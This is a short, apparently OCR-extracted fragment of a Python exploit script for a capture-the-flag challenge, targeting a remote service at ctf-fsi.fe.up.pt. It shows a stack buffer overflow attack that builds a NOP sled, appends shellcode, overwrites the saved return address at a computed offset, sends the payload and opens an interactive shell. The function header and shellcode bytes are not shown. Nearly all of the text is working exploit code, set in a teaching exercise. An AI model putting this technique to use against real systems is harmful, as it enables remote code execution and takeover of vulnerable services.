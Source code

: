 ```python

    # Return Address = Buffer Address + Buffer Size + Frame Pointer Size + Offset
    ret = addr + 100 + 4 + 50

    # Fill the payload with NOP's
    payload = bytearray(0x90 for i in range(400)) 

    # Place shellcode at the very end of the payload
    start = 400 - len(shellcode)
    payload[start:start + len(shellcode)] = shellcode

    # Buffer size is 100 bytes
    # +4 (probably because of alignment)
    # +4 because return address comes after the frame pointer ($ebp)
    offset = 100 + 4 + 4

    L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
    payload[offset:offset + L] = (ret).to_bytes(L, byteorder='little')

    r.send(payload)
    r.interactive()

hostname = 'ctf-fsi.fe.up.pt'
port = 4001

exploit(hostname, port)
```


